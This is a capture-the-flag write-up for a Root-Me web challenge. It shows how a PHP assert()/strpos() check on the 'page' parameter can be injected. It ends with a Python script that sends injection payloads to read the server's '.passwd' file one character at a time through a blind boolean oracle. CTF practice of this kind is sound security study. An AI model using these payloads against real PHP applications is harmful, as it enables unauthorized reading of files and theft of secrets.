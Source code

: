 Look at the URL: http://challenge01.root-me.org/web-serveur/ch47/?page=about, we can immediately see where the vulnerable point is. It's "page" parameter. Try add single quotation in tail of this, errors show up. We now can determine a part of code be like "assert code on line 1 Catchable fatal error: assert(): Failure evaluating code: strpos('includes/a'.php', '..') === false". So they use assert() and strpos() in this website. 
Try some dig on these functions, we know that assert() is used to Checks if assertion is FALSE, it mean if we can inject into "assertion" (in this case, assertion is entered from "page"), we can use boolean signal to read arbitrary files on server. All we need is using properly php functions. In this case, I chose substring() and file_get_contents() to get the flag file.
Write a small script to automatically extract one by one singe character of ".passwd"
And Here is my code:
```
import requests
import urllib
import string
import time

my_dic = string.letters + string.digits + " _-{}"
my_flag = ""
url = "http://challenge01.root-me.org/web-serveur/ch47/?page="

for l in range (1000):
	payload = "','vinamilk') === false && strlen(file_get_contents('.passwd')) == %d && strpos('1" % (l)
	r = requests.get(url + urllib.quote_plus(payload))
	if not r.text.find("Detected hacking attempt") > 0:
		print "length of file: %d" % (l)
		length = l
		break
	else:
		print "tried %d" % (l)

for pos in range(length):
	for fuzz in my_dic:
		payload = "','vinamilk') === false && (substr(file_get_contents('.passwd'),%d,1) == '%s') && strpos('1" % (pos, fuzz)
		r = requests.get(url + urllib.quote_plus(payload))
		if not r.text.find("Detected hacking attempt") > 0:
			my_flag = my_flag + fuzz
			print my_flag
			break
		else:
			print "tried %s" % (fuzz)
print my_flag
```